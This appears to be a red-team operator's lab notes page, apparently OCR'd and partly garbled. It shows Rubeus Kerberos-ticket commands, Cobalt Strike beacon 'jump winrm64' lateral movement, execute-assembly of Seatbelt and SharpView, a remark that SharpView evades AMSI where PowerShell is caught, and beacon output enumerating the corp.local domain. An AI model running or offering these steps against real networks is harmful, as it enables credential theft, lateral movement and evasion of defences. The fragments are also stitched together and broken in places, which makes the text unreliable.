 ```powershell

        Rubeus.exe currentluid



    The "/consoleoutfile:C:\FILE.txt" argument redirects all console output to the file specified.



    The "/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function.





 NOTE: Base64 ticket blobs can be decoded with :



    [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa..."))

```

```
jump winrm64 web.dev.cyberbotic.io smb
ame: WSADM domain: CORP)
jump winrm64 wsadm.corp
```

beacon> execute-assembly /usr/share/poshc2/resources/modules/Seatbelt.exe OSInfo -ComputerName=web


Going to try Sharpview.exe, amsi only detects powershell

execute-assembly /root/tooltesting/SharpView.exe
Sharpview works
#sharpview
```shell
[10/06 15:59:58] beacon> execute-assembly /root/tooltesting/SharpView.exe Get-NetDomain
[10/06 16:01:13] [*] Tasked beacon to run .NET program: SharpView.exe Get-NetDomain
[10/06 16:01:14] [+] host called home, sent: 843845 bytes
[10/06 16:01:17] [+] received output:
Forest                         : corp.local


[10/06 16:01:19] [+] received output:
DomainControllers              : {DC01.corp.local}

Children                       : {}

DomainMode                     : Unknown

DomainModeLevel                : 7

PdcRoleOwner                   : DC01.corp.local

RidRoleOwner                   : DC01.corp.local

InfrastructureRoleOwner        : DC01.corp.local

Name                           : corp.local

```
